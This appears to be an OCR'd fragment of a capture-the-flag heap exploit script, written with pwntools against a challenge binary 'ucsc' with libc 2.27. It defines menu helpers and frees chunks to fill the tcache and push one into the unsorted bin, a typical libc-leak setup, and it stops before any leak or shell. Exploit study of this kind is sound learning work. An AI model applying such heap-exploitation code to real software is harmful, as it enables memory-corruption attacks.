 ```c

file = process('./ucsc')

libc =ELF('./libc-2.27.so')

  

menu = ":"  

def add(idx, size):  

    file.sendlineafter(menu, str(1))  

    file.sendlineafter("Index: ", str(idx))  

    file.sendlineafter("Size ", str(size))  

  

def edit(idx, content):  

    file.sendlineafter(menu, str(2))  

    file.sendlineafter("Index: ", str(idx))  

    file.sendlineafter("Content: ", content)  

  

def free(idx):  

    file.sendlineafter(menu, str(4))  

    file.sendlineafter("Index:", str(idx))  

  

def show(idx):  

    file.sendlineafter(menu, str(3))  

    file.sendlineafter("Index:", str(idx))

  

for i in range(7):

    add(i, 0x88)# malloc(0,1,2,3,4,5,6)

add(7, 0x88)#malloc(7)

add(8, 0x38)#malloc(8)

  

for i in range(7):

    free(i)#free(0,1,2,3,4,5,6) go in fastbin

  

free(7)#free(7) go in unsortedbin

```